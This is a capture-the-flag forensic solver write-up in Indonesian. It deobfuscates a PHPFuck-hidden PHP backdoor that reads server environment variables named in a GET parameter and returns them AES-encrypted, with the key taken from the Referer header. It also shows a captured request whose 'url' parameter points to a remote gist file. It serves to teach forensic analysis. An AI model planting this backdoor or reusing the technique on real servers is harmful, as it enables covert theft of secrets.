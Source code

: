 # Solver

1. Reverse code PHPnya terlebih dahulu untuk mencari tahu behaviour dari payload yang digunakan. Probset menggunakan [PHPFuck](https://github.com/splitline/PHPFuck) untuk mengobfuscate code sederhana seperti ini

```php
echo base64_encode(openssl_encrypt(getenv($_GET["a"]), "AES-256-CBC", md5($_SERVER["HTTP_REFERER"]), OPENSSL_RAW_DATA, str_pad(date("dHis"), 16, date("dHis"))));
```

Dimana code php tersebut akan mengencrypt environment yang diinput pada parameter `a` menggunakan AES mode CBC dan key nya didapat dari hash md5 dari value header `Referer` dan IV nya didapat dari formatting tanggal sebanyak 2 kali. Untuk mendeobfuscate codenya bisa menggunakan [deobfuscate.py](/ara6-ctf-challenges/final/forensic/File%20PCAP%20Sederhana/poc/deobfuscate.py). Output dari deobfuscate akan terlihat sebagai berikut:

```
((c).(r).(e).(a).(t).(e).(_).(f).(u).(n).(c).(t).(i).(o).(n))(...((s).(t).(r).(_).(g).(e).(t).(c).(s).(v))((,).(").(e).(c).(h).(o).( ).(b).(a).(s).(e).(6).(4).(_).(e).(n).(c).(o).(d).(e).(().(o).(p).(e).(n).(s).(s).(l).(_).(e).(n).(c).(r).(y).(p).(t).(().(g).(e).(t).(e).(n).(v).(().($).(_).(G).(E).(T).([).(").(").(a).(").(").(]).()).(,).( ).(").(").(A).(E).(S).(-).(2).(5).(6).(-).(C).(B).(C).(").(").(,).( ).(m).(d).(5).(().($).(_).(S).(E).(R).(V).(E).(R).([).(").(").(H).(T).(T).(P).(_).(R).(E).(F).(E).(R).(E).(R).(").(").(]).()).(,).( ).(O).(P).(E).(N).(S).(S).(L).(_).(R).(A).(W).(_).(D).(A).(T).(A).(,).( ).(s).(t).(r).(_).(p).(a).(d).(().(d).(a).(t).(e).(().(").(").(d).(H).(i).(s).(").(").()).(,).( ).(1).(6).(,).( ).(d).(a).(t).(e).(().(").(").(d).(H).(i).(s).(").(").()).()).()).()).(;).(")))()
```

2. Setelah peserta mengetahui behaviour payloadnya, maka tinggal mendecrypt output tiap environment. Sebagai contoh

```
GET /a.php?url=https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2F4cfe67a97722f0d3434de0f81c38849a%2Fraw%2F6088fb87f42ee4aa420d1f2fd9cef8f9bc3cd266%2Fs.txt&a=FLAG28 HTTP/1.1
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 14_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive
Host: 188.166.246.10:8080
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Referer: https://yahoo.com/


HTTP/1.1 200 OK
Host: 188.166.246.10:8080
Date: Wed, 22 Jan 2025 06:20:20 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Content-type: text/html; charset=UTF-8

3KDFgkM7r9+2sFEeSmcitg==
```

Jika dilihat pada request diatas, keynya bisa didapat dari header referer yaitu: `md5sum('https://yahoo.com/')` dan hasilnya adalah `df7135f292d9c55fb45d920b7a4eed92`. Dan yang terakhir ivnya bisa didapat dari header date yaitu `22 06 20 20` dan double hasilnya untuk mendapatkan iv yaitu `2206202022062020`

![example output](output.png)

Ulangi langkah diatas untuk tiap character